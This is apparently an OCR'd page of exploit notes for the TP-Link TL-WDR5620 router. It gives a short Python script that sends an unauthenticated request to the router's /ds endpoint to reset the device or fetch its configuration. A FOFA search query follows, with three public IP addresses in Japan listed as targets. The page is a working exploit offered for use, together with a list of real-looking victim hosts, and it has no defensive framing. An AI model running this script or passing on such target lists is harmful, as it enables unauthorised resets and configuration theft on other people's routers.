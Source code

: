![](image/df675732e8d31d0d9611aa917cd4dc86.png)
## exp

```python
import requests

ip_port = ""

s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post(f"http://{ip_port}/ds", data=data)

print("Status code:", response.status_code)
print("Response body:", response.content)
```

![](image/10dd6848216b8aaf35ac11b6d54a5b4f.png)

## FOFA
"TL-WDR5620" && country="JP"
126.43.215.70:8082
126.117.229.138:8082
126.66.181.41:8082
